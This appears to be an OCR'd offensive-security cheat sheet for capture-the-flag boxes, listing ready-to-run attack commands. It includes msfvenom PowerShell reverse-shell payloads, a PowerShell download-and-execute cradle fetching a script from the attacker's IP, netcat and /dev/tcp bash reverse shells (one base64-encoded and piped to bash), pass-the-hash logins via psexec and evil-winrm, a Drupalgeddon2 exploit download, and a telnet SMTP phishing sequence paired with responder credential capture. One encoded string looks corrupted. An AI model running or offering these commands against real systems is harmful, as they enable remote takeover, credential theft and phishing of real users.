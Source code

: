 Msfvenom list all platforms and grep for specific type:
`msfvenom --list | grep powershell`

Msfvenom Windows powershell reverse tcp shell for Buffer Overflow:
`msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<your ip> LPORT=1337 -f python`

Payload too big? Msfvenom Windows cmd execute dowload a powershell script for Buffer overflow:
`msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://<your-ip>/Invoke-PowershellTcp.ps1')\"" -f python`

Netcat Reverse shell:
`/usr/bin/nc -e /bin/bash <your ip> 1337`

If WinRM port is open, you can use evil-winrm with valid credentials (from LDAP or SMB) to log in:
`evil-winrm -i $IP -u administrator -p 'MyPassword1'`

If SMB shares are open, we can use psexec to login with credentials or NT hash:
`psexec.py domain.ctf/Administrator@$IP -hashes 123456789:123456789`

Base64 a reverse shell:
`echo 'bash -i &>/dev/tcp/<your ip>/443 0>&1' | base64`

URL Encode a base 64 reverse shell: (If sending the request through a url)
``hURL -U "\`echo 'YmFzaCAtaSAmPi9kZXYvdGN123123123123yAwPiYxCg==' | base64 -d | bash\`"``

Drupalarmaggedon 2:
```
wget https://raw.githubusercontent.com/dreadlocked/Drupalgeddon2/master/drupalgeddon2.rb
sudo ruby drupalgeddon2.rb http://$IP/
```

droopescan to scan moodle:
`droopescan scan moodle -u http://$IP/moodle`

# Priv Esc

For linux look at https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md

For Windows look at https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md   
Also: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

Linux binaries with SUID: https://gtfobins.github.io/

Windows binaries to download execute etc: https://lolbas-project.github.io/

Auth and send a phishing email through telnet 25:  
```
# First setup responder
sudo responder -I tun0

# Setup username/password 
echo -ne 'administrator@mailing.htb'|base64
# YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
echo -ne 'homenetworkingadministrator'|base64
aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y

# Login to email server and send a phishing email:
telnet mailing.htb 25

ehlo mailing.htb
AUTH LOGIN
YWRtaW5pc3RyYXRvckBtYWlsaW5nLmh0Yg==
aG9tZW5ldHdvcmtpbmdhZG1pbmlzdHJhdG9y

MAIL FROM:<administrator@mailing.htb>
RCPT TO:<administrator@mailing.htb>
```